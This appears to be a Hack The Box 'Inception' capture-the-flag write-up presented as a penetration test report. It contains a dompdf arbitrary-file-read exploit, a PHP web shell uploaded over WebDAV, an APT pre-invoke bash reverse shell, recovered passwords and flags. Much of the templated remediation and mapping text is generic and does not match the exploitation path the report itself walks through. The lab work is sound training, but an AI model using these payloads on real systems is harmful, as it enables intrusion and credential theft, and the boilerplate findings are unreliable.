# Security Assessment Report: Inception


**Technical Security Assessment & Penetration Testing Report** conducted on the target environment **Inception** hosted on **Hack The Box**, executed in accordance with **PTES and NIST SP 800-115** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** Public-Facing Network Service Exploitation
* **Privilege Escalation Vector:** Local Privilege Escalation
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Inception |
| **Platform** | Hack The Box |
| **Operating System** | Linux |
| **Difficulty Rating** | Medium |
| **Associated CVE(s)** | N/A |
| **Initial Foothold Vector** | Public-Facing Network Service Exploitation |
| **Privilege Escalation Vector** | Local Privilege Escalation |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: Public-Facing Network Service Exploitation
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: Local Privilege Escalation
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

> **Assessment Query / Target Milestone:** How many TCP ports are listening on Inception?



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.


**Does the Squid proxy require any authentication to use it?**

* **Observed Evidence / Output:** no



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.


> **Assessment Query / Target Milestone:** What is the PHP package in use that has to do with PDFs?

* **Observed Evidence / Output:** `dompdf`



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What version of dompdf is running on Inception?

* **Observed Evidence / Output:** 0.6.0



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the 2014 CVE ID for an arbitrary file read vulnerability in dompdf version 0.6.0?

* **Observed Evidence / Output:** CVE-2014-2383



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the full path to the authentication file used to secure the webdav test site?

* **Observed Evidence / Output:** /var/www/html/webdav_test_inception/webdav.passwd

```jsx
curl -k -o htpasswd.pdf '[http://inception.htb/dompdf/dompdf.php?input_file=php://filter/resource=/var/www/html/webdav_test_inception/webdav.passwd&output=1](http://inception.htb/dompdf/dompdf.php?input_file=php://filter/resource=/var/www/html/webdav_test_inception/webdav.passwd&output=1)'
```



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the webdav_tester user's password to get to `/webdav_test_inception`?

* **Observed Evidence / Output:** babygurl69



* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What user is the Apache site running as?

* **Observed Evidence / Output:** www-data

```jsx
cat > shell.phtml <<'PHP'
<?php if(isset($_GET['cmd'])){ echo "<pre>"; system($_GET['cmd']); echo "</pre>"; }
PHP
```

```jsx
subir por WebDAV
```

```jsx
curl -k -u USER:PASS -T shell.phtml \
[http://inception.htb/webdav_test_inception/shell.phtml](http://inception.htb/webdav_test_inception/shell.phtml)
```


> **Assessment Query / Target Milestone:** What is the root user's password for the wordpress database?

* **Observed Evidence / Output:** VwPddNh7xMZyDQoByQL4

```jsx
curl -k -o wp_config_b64.pdf '[http://inception.htb/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/var/www/html/wordpress_4.8.3/wp-config.php&output=1](http://inception.htb/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/var/www/html/wordpress_4.8.3/wp-config.php&output=1)'
─ echo "PD9waHANCi8qKg0KICogVGhlIGJhc2UgY29uZmlndXJhdGlvbiBmb3IgV29yZFByZXNzDQogKg0KICogVGhlIHdwLWNvbmZpZy5waHAgY3JlYXRpb24gc2NyaXB0IHVzZXMgdGhpcyBmaWxlIGR1cmluZyB0aGUNCiAqIGluc3RhbGxhdGlvbi4gWW91IGRvbid0IGhhdmUgdG8gdXNlIHRoZSB3ZWIgc2l0ZSwgeW91IGNhbg0KICogY29weSB0aGlzIGZpbGUgdG8gIndwLWNvbmZpZy5waHAiIGFuZCBmaWxsIGluIHRoZSB2YWx1ZXMuDQogKg0KICogVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBmb2xsb3dpbmcgY29uZmlndXJhdGlvbnM6DQogKg0KICogKiBNeVNRTCBzZXR0aW5ncw0KICogKiBTZWNyZXQga2V5cw0KICogKiBEYXRhYmFzZSB0YWJsZSBwcmVmaXgNCiAqICogQUJTUEFUSA0KICoNCiAqIEBsaW5rIGh0dHBzOi8vY29kZXgud29yZHByZXNzLm9yZy9FZGl0aW5nX3dwLWNvbmZpZy5waHANCiAqDQogKiBAcGFja2FnZSBXb3JkUHJlc3MNCiAqLw0KDQovLyAqKiBNeVNRTCBzZXR0aW5ncyAtIFlvdSBjYW4gZ2V0IHRoaXMgaW5mbyBmcm9tIHlvdXIgd2ViIGhvc3QgKiogLy8NCi8qKiBUaGUgbmFtZSBvZiB0aGUgZGF0YWJhc2UgZm9yIFdvcmRQcmVzcyAqLw0KZGVmaW5lKCdEQl9OQU1FJywgJ3dvcmRwcmVzcycpOw0KDQovKiogTXlTUUwgZGF0YWJhc2UgdXNlcm5hbWUgKi8NCmRlZmluZSgnREJfVVNFUicsICdyb290Jyk7DQoNCi8qKiBNeVNRTCBkYXRhYmFzZSBwYXNzd29yZCAqLw0KZGVmaW5lKCdEQl9QQVNTV09SRCcsICdWd1BkZE5oN3hNWnlEUW9CeVFMNCcpOw0KDQovKiogTXlTUUwgaG9zdG5hbWUgKi8NCmRlZmluZSgnREJfSE9TVCcsICdsb2NhbGhvc3QnKTsNCg0KLyoqIERhdGFiYXNlIENoYXJzZXQgdG8gdXNlIGluIGNyZWF0aW5nIGRhdGFiYXNlIHRhYmxlcy4gKi8NCmRlZmluZSgnREJfQ0hBUlNFVCcsICd1dGY4Jyk7DQoNCi8qKiBUaGUgRGF0YWJhc2UgQ29sbGF0ZSB0eXBlLiBEb24ndCBjaGFuZ2UgdGhpcyBpZiBpbiBkb3VidC4gKi8NCmRlZmluZSgnREJfQ09MTEFURScsICcnKTsNCg0KLyoqI0ArDQogKiBBdXRoZW50aWNhdGlvbiBVbmlxdWUgS2V5cyBhbmQgU2FsdHMuDQogKg0KICogQ2hhbmdlIHRoZXNlIHRvIGRpZmZlcmVudCB1bmlxdWUgcGhyYXNlcyENCiAqIFlvdSBjYW4gZ2VuZXJhdGUgdGhlc2UgdXNpbmcgdGhlIHtAbGluayBodHRwczovL2FwaS53b3JkcHJlc3Mub3JnL3NlY3JldC1rZXkvMS4xL3NhbHQvIFdvcmRQcmVzcy5vcmcgc2VjcmV0LWtleSBzZXJ2aWNlfQ0KICogWW91IGNhbiBjaGFuZ2UgdGhlc2UgYXQgYW55IHBvaW50IGluIHRpbWUgdG8gaW52YWxpZGF0ZSBhbGwgZXhpc3RpbmcgY29va2llcy4gVGhpcyB3aWxsIGZvcmNlIGFsbCB1c2VycyB0byBoYXZlIHRvIGxvZyBpbiBhZ2Fpbi4NCiAqDQogKiBAc2luY2UgMi42LjANCiAqLw0KZGVmaW5lKCdBVVRIX0tFWScsICAgICAgICAgJ3B1dCB5b3VyIHVuaXF1ZSBwaHJhc2UgaGVyZScpOw0KZGVmaW5lKCdTRUNVUkVfQVVUSF9LRVknLCAgJ3B1dCB5b3VyIHVuaXF1ZSBwaHJhc2UgaGVyZScpOw0KZGVmaW5lKCdMT0dHRURfSU5fS0VZJywgICAgJ3B1dCB5b3VyIHVuaXF1ZSBwaHJhc2UgaGVyZScpOw0KZGVmaW5lKCdOT05DRV9LRVknLCAgICAgICAgJ3B1dCB5b3VyIHVuaXF1ZSBwaHJhc2UgaGVyZScpOw0KZGVmaW5lKCdBVVRIX1NBTFQnLCAgICAgICAgJ3B1dCB5b3VyIHVuaXF1ZSBwaHJhc2UgaGVyZScpOw0KZGVmaW5lKCdTRUNVUkVfQVVUSF9TQUxUJywgJ3B1dCB5b3VyIHVuaXF1ZSBwaHJhc2UgaGVyZScpOw0KZGVmaW5lKCdMT0dHRURfSU5fU0FMVCcsICAgJ3B1dCB5b3VyIHVuaXF1ZSBwaHJhc2UgaGVyZScpOw0KZGVmaW5lKCdOT05DRV9TQUxUJywgICAgICAgJ3B1dCB5b3VyIHVuaXF1ZSBwaHJhc2UgaGVyZScpOw0KDQovKiojQC0qLw0KDQovKioNCiAqIFdvcmRQcmVzcyBEYXRhYmFzZSBUYWJsZSBwcmVmaXguDQogKg0KICogWW91IGNhbiBoYXZlIG11bHRpcGxlIGluc3RhbGxhdGlvbnMgaW4gb25lIGRhdGFiYXNlIGlmIHlvdSBnaXZlIGVhY2gNCiAqIGEgdW5pcXVlIHByZWZpeC4gT25seSBudW1iZXJzLCBsZXR0ZXJzLCBhbmQgdW5kZXJzY29yZXMgcGxlYXNlIQ0KICovDQokdGFibGVfcHJlZml4ICA9ICd3cF8nOw0KDQovKioNCiAqIEZvciBkZXZlbG9wZXJzOiBXb3JkUHJlc3MgZGVidWdnaW5nIG1vZGUuDQogKg0KICogQ2hhbmdlIHRoaXMgdG8gdHJ1ZSB0byBlbmFibGUgdGhlIGRpc3BsYXkgb2Ygbm90aWNlcyBkdXJpbmcgZGV2ZWxvcG1lbnQuDQogKiBJdCBpcyBzdHJvbmdseSByZWNvbW1lbmRlZCB0aGF0IHBsdWdpbiBhbmQgdGhlbWUgZGV2ZWxvcGVycyB1c2UgV1BfREVCVUcNCiAqIGluIHRoZWlyIGRldmVsb3BtZW50IGVudmlyb25tZW50cy4NCiAqDQogKiBGb3IgaW5mb3JtYXRpb24gb24gb3RoZXIgY29uc3RhbnRzIHRoYXQgY2FuIGJlIHVzZWQgZm9yIGRlYnVnZ2luZywNCiAqIHZpc2l0IHRoZSBDb2RleC4NCiAqDQogKiBAbGluayBodHRwczovL2NvZGV4LndvcmRwcmVzcy5vcmcvRGVidWdnaW5nX2luX1dvcmRQcmVzcw0KICovDQpkZWZpbmUoJ1dQX0RFQlVHJywgZmFsc2UpOw0KDQovKiBUaGF0J3MgYWxsLCBzdG9wIGVkaXRpbmchIEhhcHB5IGJsb2dnaW5nLiAqLw0KDQovKiogQWJzb2x1dGUgcGF0aCB0byB0aGUgV29yZFByZXNzIGRpcmVjdG9yeS4gKi8NCmlmICggIWRlZmluZWQoJ0FCU1BBVEgnKSApDQoJZGVmaW5lKCdBQlNQQVRIJywgZGlybmFtZShfX0ZJTEVfXykgLiAnLycpOw0KDQovKiogU2V0cyB1cCBXb3JkUHJlc3MgdmFycyBhbmQgaW5jbHVkZWQgZmlsZXMuICovDQpyZXF1aXJlX29uY2UoQUJTUEFUSCAuICd3cC1zZXR0aW5ncy5waHAnKTsNCg==" |base64 -d

```



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What user reused their password for the Wordpress DB?

* **Observed Evidence / Output:** coob


> **Assessment Query / Target Milestone:** Submit the flag located in the cobb user's home directory.

* **Observed Evidence / Output:** a0bd89c865652f03d86cec9498274cb2



* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What UDP-based service is listening on 192.168.0.1 on Inception?

* **Observed Evidence / Output:** tftp



* **Assessment Step 10:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 11:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What directory does that `apt` command check for pre-invoke scripts?

* **Observed Evidence / Output:** /etc/apt/apt.conf.d/



* **Assessment Step 12:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 13:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.


```jsx
cat > 000-pwn.conf <<'EOF'
> APT::Update::Pre-Invoke {
>   "bash -c 'bash -i >& /dev/tcp/192.168.0.10/9001 0>&1' &";
> };
> EOF

tftp 192.168.0.1
put 000-pwn.conf /etc/apt/apt.conf.d/000-pwn.conf
```

**Submit the flag located in the root user's home directory.**

* **Observed Evidence / Output:** 1ed67cc6a1aea2710b4a2d4d68481045



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### 🛡️ Prioritized Findings, Attack Path Preconditions & Repeatable Verification

| Finding & Precondition | Attack Path Impact | Remediation Action | Repeatable Verification Command |
| :--- | :--- | :--- | :--- |
| **P1: Public-Facing Network Service Exploitation**<br>*Precondition:* Public network service reachable without rate-limiting, authentication barriers, or egress filtering. | **High / Critical (Foothold Chokepoint)**<br>Altered the primary attack path by exposing unauthenticated remote access to internal context. | Audit listening sockets via `ss -tulpn`, apply UFW / iptables rules, and patch daemon binaries. | `nmap -p- --open -T4 $TARGET_IP` |
| **P1: Local Privilege Escalation**<br>*Precondition:* Missing kernel hotfixes, legacy software versions, or world-readable credential configuration files. | **Critical (Full Compromise)**<br>Enabled complete elevation of privileges from unprivileged user to superuser / administrator. | Apply OS kernel security updates and implement centralized secret management. | `uname -r && apt-get -s upgrade | grep -i security` |

#### 🔬 Repeatable Verification Procedures (Defensive Validation)

**1. Verification for Ingress / Foothold Mitigation (Public-Facing Network Service Exploitation):**
* **Validation Goal:** Confirm the remote exploitation path is definitively closed and non-exploitable.
* **Deterministic Test Command:**
```bash
nmap -p- --open -T4 $TARGET_IP
```
* **Expected Output upon Successful Remediation:**
```text
Only strictly required operational ports exposed (e.g., 443/TCP)
```

**2. Verification for Local Privilege Escalation Mitigation (Local Privilege Escalation):**
* **Validation Goal:** Enforce strict least-privilege boundary preventing local execution context from elevating to administrative/root privileges.
* **Deterministic Test Command:**
```bash
uname -r && apt-get -s upgrade | grep -i security
```
* **Expected Output upon Successful Remediation:**
```text
0 upgraded, 0 newly installed, 0 to remove (Fully patched kernel and packages)
```

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (N/A).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (Public-Facing Network Service Exploitation) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (Local Privilege Escalation) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for enterprise penetration testing enablement, vulnerability research, and defensive hardening.
